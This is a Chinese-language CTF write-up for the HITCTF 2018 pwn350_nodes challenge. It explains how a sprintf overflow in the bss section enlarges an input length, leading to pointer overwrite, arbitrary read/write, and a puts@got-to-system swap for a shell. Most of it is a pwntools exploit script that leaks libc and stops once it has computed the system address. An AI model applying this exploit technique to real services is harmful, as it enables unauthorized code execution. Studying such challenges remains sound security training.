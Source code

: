 ![](https://github.com/7Hxz233/2018-HITCTF-Challenges/blob/master/pwn/pwn350_nodes/images/1.png?raw=true)

在生成和编辑节点时，data的输入长度由变量unk_804A080决定，unk_804A080初始为0x30。每完成一次插入，用于统计节点数量的全局变量dword_804A04C会+1，然后程序打印当前节点的数量，打印之前先用sprintf把字符串拷贝到char byte_804A060[32]上。

![](https://github.com/7Hxz233/2018-HITCTF-Challenges/blob/master/pwn/pwn350_nodes/images/2.png?raw=true)

观察char byte_804A060[32]和unk_804A080的位置，发现当节点数量大于等于100时，sprintf拷贝到char byte_804A060[32]会覆盖unk_804A080的值，造成一个bss节上的溢出，unk_804A080的值变大了，再次编辑节点时，就可以通过输入data来覆盖结构体上的next指针，利用edit和list函数来实现任意地址的读写，可以修改puts@got为system，然后在节点的data上输入/bin/sh来获取shell，exp如下：
```python
from pwn import *

read_got = 0x0804A010
puts_got = 0x0804A024

puts  = 0x0005FCA0 
system = 0x0003ADA0 

p = remote("127.0.0.1",40003)

def add(value,data,flag=0):
	p.recvuntil("please input your choice:")
	p.sendline("1")
	p.recvuntil("Value:")
	p.sendline(str(value))
	p.recvuntil("Data:")
	if not flag:
		p.send(data)

def edit(OldValue,NewValue,NewData):
	p.recvuntil("please input your choice:")
	p.sendline("2")
	p.recvuntil("Node's value:")
	p.sendline(str(OldValue))
	p.recvuntil("New value:")
	p.sendline(str(NewValue))
	p.recvuntil("New data:")
	p.send(NewData)

def quit():
	p.recvuntil("please input your choice:")
	p.sendline("4")


for i in range(0,100):
	print i
	if i > 9:
		add(i,str(i),1)
	else:
		add(i,str(i))

edit(0,0,"/bin/sh\x00" + 'a'*0x28 + p32(puts_got))
p.recvuntil("please input your choice:")

p.sendline("3")
p.recvuntil("/bin/sh")
p.recvuntil("Value:")
puts_addr = int(p.recvline())
print hex(puts_addr)

libc_base = puts_addr - puts
system_addr = libc_base + system

```